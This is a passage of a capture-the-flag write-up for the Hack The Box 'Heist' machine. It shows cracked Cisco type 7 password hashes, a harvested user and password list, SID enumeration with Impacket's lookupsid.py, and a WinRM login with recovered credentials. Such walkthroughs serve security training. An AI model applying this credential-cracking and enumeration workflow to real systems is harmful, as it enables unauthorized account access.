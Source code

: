 ```
Rejected.........: 0/3543552 (0.00%)
Restore.Point....: 3542784/14344385 (24.70%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidates.#1....: stedigner4 -> steakdi

Started: Tue Nov 10 19:39:20 2020
Stopped: Tue Nov 10 19:41:42 2020
```

The last two needed some googling to crack`cisco password 7`

Using the first website you get from the search you can creack both remaing hashes:

```
0242114B0E143F015F5D1E161713:$uperP@ssword
02375012182C1A1D751618034F36415408:Q4)sJu\Y8qz*A3?d
```

Now we have a list of potential users an potential passwords.:

```
hazard
tout3r
admin

stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

# Foothold and user access

Now i managed to get other users using `lookupsid.py` and the user and password combination `hazard:stealth1agent`

```
lookupsid.py hazard:stealth1agent@heist.htb
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Brute forcing SIDs at heist.htb
[*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Now we get new potential users and trying to connect using `evil-winrm` I managed to get access using  `chase:Q4)sJu\Y8qz*A3?d`
